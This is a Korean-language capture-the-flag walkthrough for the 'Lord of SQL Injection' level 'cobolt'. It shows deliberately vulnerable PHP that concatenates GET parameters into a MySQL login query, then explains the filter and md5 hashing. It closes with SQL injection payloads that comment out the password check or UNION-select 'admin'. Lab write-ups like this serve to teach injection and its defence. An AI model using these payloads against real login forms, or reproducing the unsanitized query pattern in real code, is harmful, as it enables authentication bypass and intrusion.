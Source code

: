# Lord of SQL Injection No.1 - Cobolt
## 문제 출제 의도
1. MYSQL에서 원하는 값을 가져 올 수 있는지 확인.
2. PHP에서 GET방식의 입력값을 조작 가능한지 확인.
## 소스 코드
~~~
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
~~~
## 소스 코드 분석
+ md5()
    - 문자열의 md5 해시를 계산한다.
    - md5 함수는 다음과 같은 형식을 취한다.
    ~~~
    string md5 ( string $str [, bool $raw_output ] )
    ~~~
    - $raw_output
        * 값이 TRUE이면, 해시를 길이 16의 바이너리 형식으로 반환한다.
        * 기본값은 FALSE이다.
    - 16진수 32 문자로 해시를 반환한다.
    - md5 함수에 대해 잘 모르겠다면 다음 사이트를 참고하자.  
    <a href="http://php.net/manual/kr/function.md5.php">PHP: md5 - Manual</a>
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 id값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~ "이 출력되고 문제 풀이에 실패한다.
+ pw값은 입력받은 뒤에 md5함수에 의해 암호화 된다.
+ 풀이 성공 조건
    - 데이터베이스에서 받은 값이 'admin' 이면 문제 해결에 성공한다.
## 문제 해결
1. WHERE 조건절 조작
    - id값을 '(single quote)를 이용하여 조작 가능하다.
    - 다음과 유사한 방법들로 WHERE 조건절을 조작 할 수 있다.
    ~~~
    ?id=admin' -- -
    ~~~
    - id가 'admin'인 레코드의 데이터를 불러온다.
2. UNION
    - 다음과 유사한 방법으로 빈 테이블에 추가 값을 가지고 올 수 있다.
    ~~~
    ?id=' UNION(SELECT 'admin') -- -
    ~~~
